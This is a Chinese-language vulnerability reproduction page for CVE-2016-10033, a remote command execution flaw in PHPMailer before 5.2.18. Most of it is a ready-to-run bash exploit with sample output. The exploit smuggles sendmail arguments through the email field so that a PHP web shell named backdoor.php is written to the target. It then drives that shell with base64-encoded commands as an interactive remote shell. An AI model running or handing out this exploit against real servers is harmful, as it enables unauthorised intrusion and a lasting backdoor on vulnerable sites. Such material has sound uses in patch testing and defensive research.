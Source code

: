 （CVE-2016-10033）PHPMailer \< 5.2.18 远程命令执行漏洞
======================================================

一、漏洞简介
------------

PHPMailer
5.2.18之前的版本存在一个漏洞，该漏洞可能导致远程代码执行（RCE）。如果未设置Sender属性，则PHPMailer的isMail传输中的mailSend函数可能会允许远程攻击者将额外的参数传递给mail命令，从而通过在预制的发件人地址中使用"（反斜杠双引号）执行任意代码。

二、漏洞影响
------------

PHPMailer \< 5.2.18

三、复现过程
------------

### poc

    root@kali:~/CVE-2016-10033# ./exploit.sh www.0-sec.org:8080
    [+] CVE-2016-10033 exploit by opsxcq
    [+] Exploiting www.0-sec.org:8080
    [+] Target exploited, acessing shell at http://www.0-sec.org:8080/backdoor.php
    [+] Checking if the backdoor was created on target system
    [+] Backdoor.php found on remote system
    [+] Running whoami
    www-data
    RemoteShell> ls
    [+] Running ls
    vulnerable
    RemoteShell> pwd
    [+] Running pwd
    /www
    CVE-2016-10033.sh
    #!/bin/bash
    # CVE-2016-10033 exploit by opsxcq
    # https://github.com/opsxcq/exploit-CVE-2016-10033

    echo '[+] CVE-2016-10033 exploit by opsxcq'

    if [ -z "$1" ]
    then
        echo '[-] Please inform an host as parameter'
        exit -1
    fi

    if [ $(uname) == 'Darwin' ]
    then
        decoder='base64 -D'
    elif [ $(uname) == 'Linux' ]
    then
        decoder='base64 -d'  
    else
        echo '[-] Your platform isnt supported: '$(uname)
        exit -1
    fi


    host=$1

    echo '[+] Exploiting '$host

    curl -sq 'http://'$host -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzXJpHSq4mNy35tHe' --data-binary $'------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="action"\r\n\r\nsubmit\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="name"\r\n\r\n<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="email"\r\n\r\n\"vulnerables\\\" -OQueueDirectory=/tmp -X/www/backdoor.php server\" @test.com\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="message"\r\n\r\nPwned\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe--\r\n' >/dev/null && echo '[+] Target exploited, acessing shell at http://'$host'/backdoor.php'


    echo '[+] Checking if the backdoor was created on target system'
    code=$(curl -o /dev/null --silent --head --write-out '%{http_code}\n' "http://$host/backdoor.php")

    if [ "$code" != "200" ]
    then
        echo '[-] Target cant be exploited'
        exit -1
    else
        echo '[+] Backdoor.php found on remote system'
    fi

    cmd='whoami'
    while [ "$cmd" != 'exit' ]
    do
        echo '[+] Running '$cmd
        if ! curl -sq http://$host/backdoor.php?cmd=$(echo -ne $cmd | base64) | grep '|' | grep -v 'base64_encode' | head -n 1 | cut -d '|' -f 2 | $decoder 
        then
            echo '[-] Connection problens'
            exit -1
        fi
        echo
        read -p 'RemoteShell> ' cmd
    done
    echo '[+] Exiting'
